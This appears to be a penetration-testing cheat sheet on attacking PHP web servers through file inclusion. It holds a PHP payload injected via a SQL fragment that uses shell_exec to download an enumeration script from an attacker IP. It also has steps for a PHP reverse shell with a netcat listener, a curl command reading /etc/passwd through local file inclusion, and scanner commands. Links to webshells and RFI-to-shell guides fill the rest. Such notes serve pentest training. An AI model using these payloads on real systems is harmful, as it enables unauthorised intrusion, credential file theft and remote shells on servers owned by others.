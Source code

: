 ```
<?php *dollar-sign*output = shell_exec("/usr/bin/fetch -o /var/tmp/LinuxEnum.sh  http://10.11.0.202/LinuxEnum.sh");echo"

<pre>*dollar-sign*output</pre>"; ?>' WHERE ROWID = 1

```

### php reverse-shell.php

Edit the shell and put in your local kali ip address and port

start netcat listener and just surf to the reverse-shell.php

you may have to upload it with special characters such as ; or other special characters



### Ordered output

curl -s http://*target*/gallery.php?page=/etc/passwd

/root/Tools/Kadimus/kadimus -u http://*target*/example.php?page=

### WEBSHELLS
https://github.com/tennc/webshell/tree/master/fuzzdb-webshell/asp

### RFI

### rfiscan.py

Located in viper-shell

Python RFIscan.py -t target -s domain -write rfi_found.txt -v 

We will try to get the webserver to access a script on an external website
1.	First try to create an evil php program and store it on kali
2.	Visit the target website and call our script in the url
3.	See the advanced kali hacker book for more details

#### Upload shell through pictures

https://null-byte.wonderhowto.com/how-to/upload-shell-web-server-and-get-root-rfi-part-1-0162818/

https://null-byte.wonderhowto.com/how-to/upload-shell-web-server-and-get-root-rfi-part-2-0162854/

#### upload shell through RFI

http://securityxploded.com/remote-file-inclusion.php

#### from RFI to shell

https://penetrate.io/2014/01/10/from-rfi-to-shell/

#### exploit RFI

https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/
